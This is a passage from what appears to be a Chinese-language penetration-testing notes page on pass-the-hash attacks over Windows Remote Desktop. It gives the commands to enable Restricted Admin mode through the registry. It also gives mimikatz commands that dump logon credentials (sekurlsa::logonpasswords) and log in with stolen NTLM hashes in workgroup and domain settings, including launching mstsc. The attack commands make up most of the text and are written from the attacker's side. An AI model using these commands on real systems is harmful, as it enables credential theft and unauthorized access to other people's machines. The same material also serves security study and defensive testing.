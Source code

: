 4. 使用攻击机自己的用户及 Hash 进行远程登录
    ```
    mstsc.exe /restrictedadmin
    ```
    如果当前系统支持受限管理模式，则上述命令执行后会直接弹出远程登录的登录界面；如果当前系统不支持受限管理模式，则上述命令执行后会弹出远程桌面的参数说明

    如果上述命令顺利执行，输入目标机器的 IP 和端口，可直接进行远程登录，不需要输入任何口令，这种方式会使用当前攻击机的用户名和用户 hash 尝试登录目标机器

    开启 Restricted Admin mode
    ```
    REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
    ```

**mimikatz进行哈希传递攻击PtH**

1. (工作组)通过 pth 进行远程登录(cmd)

    ```
    mimikatz.exe privilege::debug

    mimikatz.exe privilege::debug "sekurlsa::pth /user:用户名  /domain:目标机器IP  /ntlm:密码哈希"

    mimikatz.exe privilege::debug "sekurlsa::pth /user:win10 /domain:192.168.1.1 /ntlm:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
    ```

2. (域)通过 pth 进行远程登录(cmd)

    ```
    mimikatz.exe privilege::debug
    mimikatz.exe sekurlsa::logonpasswords

    mimikatz.exe privilege::debug "sekurlsa::pth /domain:目标机器的域 /user:目标机器的用户名 /ntlm:用户名对应的hash"

    mimikatz.exe privilege::debug "sekurlsa::pth /user:win10 /domain:test.com /ntlm:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
    ```

3. 通过 pth 进行远程登录(mstsc)
    ```
    # 管理员权限下执行以下命令:
    mimikatz.exe privilege::debug "sekurlsa::pth /domain:目标机器的域 /user:目标机器的用户名 /ntlm:用户名对应的hash /run:mstsc.exe /restrictedadmin"
    ```

    RDP 限制管理模式是建立在 Kerberos 基础上的。看一下网络流量，可以看到 RDP 客户端代表模拟的用户请求 ticket，这没有问题，因为我们只需要通过哈希来验证 Kerberos。

**相关文章**
- [mimikatz-pth with rdp](http://rtshield.top/2019/08/31/%E5%AE%89%E5%85%A8%E5%B7%A5%E5%85%B7-mimikatz-pth_with_rdp/)
- https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth
- [Passing the hash with native RDP client (mstsc.exe)](https://edermi.github.io/post/2018/native_rdp_pass_the_hash/)

---
